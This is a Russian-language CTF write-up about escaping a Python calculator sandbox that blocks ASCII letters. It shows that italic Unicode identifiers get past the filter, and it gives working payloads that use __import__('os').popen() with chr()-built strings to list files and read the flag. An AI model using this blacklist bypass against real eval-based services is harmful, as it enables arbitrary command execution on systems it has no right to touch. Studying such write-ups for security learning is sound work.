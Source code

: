 # Безопасный калькулятор: Write-up #
Как и прошлый калькулятор, открываем этот через `netcat`:

    $ nc 62.173.140.174 10001

![](writeup/calc.jpg)

В отличие от прошлого калькулятора, в этом заблокировали все `ascii-letters`, что проверяется довольно просто:

    >>> print
    HACK ATTEMPTED!!!
[Здесь](https://theasciicode.com.ar/) можно посмотреть, что заблокировано: 65-90 и 97-122 символы.
Честно говоря, долго я возился на этом моменте, в основном пытался скормить октальные символы (aka `\123\131\111` и т.п.). Хотелось воспользоваться хинтом, но сначала он мне казался полностью лишённым смысла:
> Думаю тебе стоит спросить у Итальянцев о том, как они пишут код)))

Интернет выдавал лишь это:

![](writeup/meme.jpg)

А потом допёрло: `"итальянский код" == "italian code" ≈≈ "italic code" == "курсивный код"`. Воспользовавшись [генератором](https://capitalizemytitle.com/italic-text-generator/), попробовал следующее:

    >>>𝘱𝘳𝘪𝘯𝘵
    <built-in function print>

![](writeup/lapenko.jpg)

Осталось дело за малым - сформировать пэйлоад:
    
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__("𝘰𝘴").𝘱𝘰𝘱𝘦𝘯("𝘭𝘴").𝘳𝘦𝘢𝘥()
    No module named '𝘰𝘴'
А вот тут загвоздка: мы можем вызывать функции, но не можем писать строки, они будут курсивные (нехорошие). Так что придётся каждый символ писать через функцию `chr()`, так что "os" == chr(111)+chr(115). То же и с командой. Так что ввод будет следующим:
    
    # __import__("os").popen("ls").read()
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__(𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)).𝘱𝘰𝘱𝘦𝘯(𝘤𝘩𝘳(108)+𝘤𝘩𝘳(115)).𝘳𝘦𝘢𝘥()
    flag.txt
    requirements.txt
    service.py

Читаем флаг (ох уж эта посимвольная пытка):

    # __import__("os").popen("cat flag.txt").read()
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__(𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)).𝘱𝘰𝘱𝘦𝘯(𝘤𝘩𝘳(99)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(116)+" "+𝘤𝘩𝘳(102)+𝘤𝘩𝘳(108)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(103)+"."+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(120)+𝘤𝘩𝘳(116)).𝘳𝘦𝘢𝘥()
    CODEBY{bl4ck_l1st_byp4ss}

P.S. Как и в калькуляторе, тем же способом сдампил [service.py](writeup/service.py), смотрите на здоровье))
